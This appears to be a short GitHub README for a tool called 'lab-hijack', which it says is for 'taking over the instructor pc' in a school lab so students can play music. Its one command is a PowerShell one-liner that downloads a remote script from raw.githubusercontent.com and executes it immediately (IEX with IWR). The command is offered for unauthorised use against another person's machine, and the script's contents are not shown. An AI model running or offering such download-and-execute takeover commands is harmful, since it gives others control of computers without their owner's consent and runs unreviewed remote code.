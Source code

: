 # lab-hijack

Pretty much for taking over the instructor pc so we can listen to music in the lab.

(It's not pretty much... It's the only reason we use it :) )

¯\\_(ツ)_/¯

To invoke directly from powershell:
```
IEX $(IWR raw.githubusercontent.com/kyle-schleich/lab-hijack/master/remote.ps1)
```
